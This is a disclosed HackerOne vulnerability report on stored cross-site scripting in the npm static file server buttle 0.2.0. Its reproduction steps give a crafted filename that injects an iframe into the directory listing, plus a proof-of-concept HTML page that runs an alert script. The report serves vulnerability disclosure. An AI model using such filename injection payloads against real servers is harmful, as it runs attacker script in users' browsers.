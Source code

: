 # [buttle] HTML Injection in filename leads to XSS when directory listing is displayed in the browser

## Report Details
- **Report ID**: 331110
- **URL**: https://hackerone.com/reports/331110
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-29T14:49:58.414Z
- **Disclosed**: 2018-07-04T19:24:02.294Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report HTML Injection in buttle module.

Due to lack of filenames sanitization, it is possible to inject malicious ```iframe``` tag via filename and execute arbitray JavaScript code.

# Module

**module name:** buttle
**version:** 0.2.0
**npm page:** https://www.npmjs.com/package/buttle

## Module Description

Simple static file (+ markdown) server.


## Module Stats

Stats:

N/A, estimated ~20-40 downloads/week

# Vulnerability

## Vulnerability Description

When ```buttle``` displays directory index in the browser, it uses ```directory.js``` middleware from ```connect``` module to create an output with HTML. Because methods to escape user output used in this middleware are not sufficient enough (it's actually quite outdated version of ```connect```), it is possible to inject ```iframe``` tag with ```src``` attribute set to arbitrary HTML file, which can contain any executable JavaScript code.

## Steps To Reproduce:

- install ```buttle```:

```
$ npm i buttle
```

- create file with the following name: ```"><iframe src="malware_frame.html">```

- create ```malwrae_frame.html``` file with following content:

```html
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <!-- <script type="text/javascript" src="malware.js"></script> -->
    <script>
        alert('Uh oh, I am bad, bad malware!!!')
    </script>
</body>

</html>
```

- run buttle:

```
$ ./node_modules/buttle/bin/buttle -p 8080
Listening on port 8080
```

- in browser, open the following url:

```
http://localhost:8080
```

You see JavaScript from ```malware_frame.html``` executed immediately:

{F279830}


## Patch

Probably updating all dependiences is a good solution.


## Supporting Material/References:


- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- Chromium Version 67.0.3367.0 (Developer Build) (64-bit)


# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

I hope my report will help to keep Node.js ecosystem and its users safe :)

Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker is able to execute arbitrary JavaScript code in user's browser

The hacker selected the **Cross-site Scripting (XSS) - Stored** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
http://localhost:8080

**Verified**
Yes



## Attachments
- 1.jpg
